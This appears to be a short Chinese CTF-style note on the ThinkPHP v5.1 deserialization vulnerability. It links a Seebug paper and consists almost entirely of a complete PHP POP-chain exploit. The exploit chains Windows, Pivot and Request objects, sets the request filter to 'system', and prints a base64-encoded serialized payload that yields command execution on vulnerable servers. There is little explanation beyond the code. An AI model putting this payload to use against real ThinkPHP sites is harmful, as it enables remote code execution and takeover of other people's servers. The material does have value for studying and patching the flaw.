

# 知识点
### ThinkPHP v5.1反序列化漏洞
[https://paper.seebug.org/1040/#_2](https://paper.seebug.org/1040/#_2)
# 思路
```plsql
<?php
namespace think\process\pipes{

    use think\model\Pivot;

    class Windows
    {
        private $files = [];
        public function __construct(){
            $this->files[]=new Pivot();
        }
    }
}
namespace think{
    abstract class Model
    {
        protected $append = [];
        private $data = [];
        public function __construct(){
            $this->data=array(
              'Ki1ro'=>new Request()
            );
            $this->append=array(
                'Ki1ro'=>array(
                    'hello'=>'world'
                )
            );
        }
    }
}
namespace think\model{

    use think\Model;

    class Pivot extends Model
    {

    }
}
namespace think{
    class Request
    {
        protected $hook = [];
        protected $filter;
        protected $config = [
            // 表单请求类型伪装变量
            'var_method'       => '_method',
            // 表单ajax伪装变量
            'var_ajax'         => '',
            // 表单pjax伪装变量
            'var_pjax'         => '_pjax',
            // PATHINFO变量名 用于兼容模式
            'var_pathinfo'     => 's',
            // 兼容PATH_INFO获取
            'pathinfo_fetch'   => ['ORIG_PATH_INFO', 'REDIRECT_PATH_INFO', 'REDIRECT_URL'],
            // 默认全局过滤方法 用逗号分隔多个
            'default_filter'   => '',
            // 域名根，如thinkphp.cn
            'url_domain_root'  => '',
            // HTTPS代理标识
            'https_agent_name' => '',
            // IP代理获取标识
            'http_agent_ip'    => 'HTTP_X_REAL_IP',
            // URL伪静态后缀
            'url_html_suffix'  => 'html',
        ];
        public function __construct(){
            $this->hook['visible']=[$this,'isAjax'];
            $this->filter="system";
        }
    }
}
namespace{

    use think\process\pipes\Windows;

    echo base64_encode(serialize(new Windows()));
}

```

